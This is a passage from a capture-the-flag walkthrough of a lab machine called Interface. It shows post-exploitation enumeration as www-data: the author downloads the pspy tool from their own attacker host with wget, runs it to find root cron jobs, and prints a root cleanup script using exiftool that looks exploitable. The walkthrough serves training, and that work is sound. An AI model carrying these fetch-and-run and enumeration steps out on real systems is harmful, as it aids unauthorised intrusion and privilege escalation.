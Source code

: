 There’s nothing too interesting in these either.

`/srv` and `/opt` are both empty as well. Not much to find.

#### Processes

Just looking at the processes running (`ps auxww`) doesn’t show much of
interest. To look for cron jobs and other running tasks, I’ll host
[pspy](https://github.com/DominicBreuker/pspy) from my box and upload it to
Interface:

    
    
    www-data@interface:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-02-13 19:58:04--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: 'pspy64'
    
    pspy64              100%[===================>]   2.94M  4.03MB/s    in 0.7s
    
    2023-02-13 19:58:05 (4.03 MB/s) - 'pspy64' saved [3078592/3078592]
    

I’ll set it as executable and run it:

    
    
    www-data@interface:/dev/shm$ chmod +x pspy64
    www-data@interface:/dev/shm$ ./pspy64
    ...[snip]...
    

There are two sets of processes that are revealed. Every two minutes, this
occurs:

    
    
    2023/02/13 20:04:01 CMD: UID=0    PID=12449  | /usr/sbin/CRON -f 
    2023/02/13 20:04:01 CMD: UID=0    PID=12448  | /usr/sbin/CRON -f 
    2023/02/13 20:04:01 CMD: UID=0    PID=12450  | /bin/bash /usr/local/sbin/cleancache.sh
    

And every five minutes, this:

    
    
    2023/02/13 20:05:01 CMD: UID=0    PID=12453  | /bin/bash /root/clean.sh 
    2023/02/13 20:05:01 CMD: UID=0    PID=12452  | /bin/sh -c /root/clean.sh 
    2023/02/13 20:05:01 CMD: UID=0    PID=12451  | /usr/sbin/CRON -f 
    

#### cleancache.sh

This script, in the `sbin` directory (so meant to be run as root), is:

    
    
    #! /bin/bash
    cache_directory="/tmp"
    for cfile in "$cache_directory"/*; do
        if [[ -f "$cfile" ]]; then
            meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
            if [[ "$meta_producer" -eq "dompdf" ]]; then
                echo "Removing $cfile"
                rm "$cfile"
            fi
        fi
    done
    